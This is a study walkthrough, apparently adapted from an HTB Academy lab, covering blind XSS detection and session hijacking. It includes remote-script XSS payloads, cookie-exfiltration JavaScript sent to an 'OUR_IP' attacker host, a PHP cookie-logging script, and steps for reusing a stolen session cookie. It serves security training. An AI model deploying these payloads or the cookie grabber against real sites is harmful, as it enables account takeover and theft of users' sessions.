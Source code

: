 If a malicious user obtains the cookie data from the victims browser, he might be able to gain access to the user's login session.

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a `Session Hijacking` (aka `Cookie Stealing`) attack.

This is a walkthrough from  [HTB Academy](https://academy.hackthebox.com/module/103/section/1008)

## Blind XSS Detection

A blind XSS vulnerability occurs when the vulnerability is being triggered on a page we don't have access to.

Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

When we submit the following form:
![[xss_blind_test_form.jpg]]

We can see we get the following message:
![[xss_blind_test_form_output.jpg]]

We don't have access to the admin panel in this case, so we can test it locally (i.e. until we get an alert box).

For detection we can use a JavaScript payload that sends an HTTP request back to our server. If it's executed, we will get a response, and we will know that the page is vulnerable.

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?

## Loading a Remote Script

We can include a remote script in the `<scrip>` tag:
```html
<script src="http://OUR_IP/script.js"></script>
```

We can use the name of the script as the name of the field we are texting, for easier tracking:
```html
<script src="http://OUR_IP/username"></script>
```

If we get a request to a specific file, we know that this field is vulnerable to XSS. Here are a few example we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):
```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

With access to the source code, it would be possible to precisely write the required payload. This is why Blind XSS has a higher success rate with DOM XSS type of vulnerability.

We will now start a PHP listener:
```shell-session
$ sudo php -S 0.0.0.0:80
```

Now we can try those payloads in the appropriate fields:
```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

Once we receive a call to our sever, we will not the last XSS payload we used as a working payload, and note the vulnerable input field name.

## Session Hijacking

Session hijacking requires a JavaScript payload to send us data, and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

The first payload navigates to our cookie grabber PHP page, which may look suspicious. The second payload simply adds an image to the page.

We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM as well:
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```

Now, we can change the URL in the XSS payload we found earlier to use `script.js`:
```html
<script src=http://OUR_IP/script.js></script>
```

If there are many cookies, we may not know which cookie value belongs to which cookie header. So, we can write a PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.

We can save the following PHP script as `index.php`, and re-run the PHP server again:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Once the user visits the page, we will get one request for `script.js`, which in turn will make another request with the cookie value:
```shell-session
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

We can check the `cookies.txt` file:
```shell-session
$ cat cookies.txt 
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

Now we can use the cookie in the login page, and refresh the page to get access to the session.

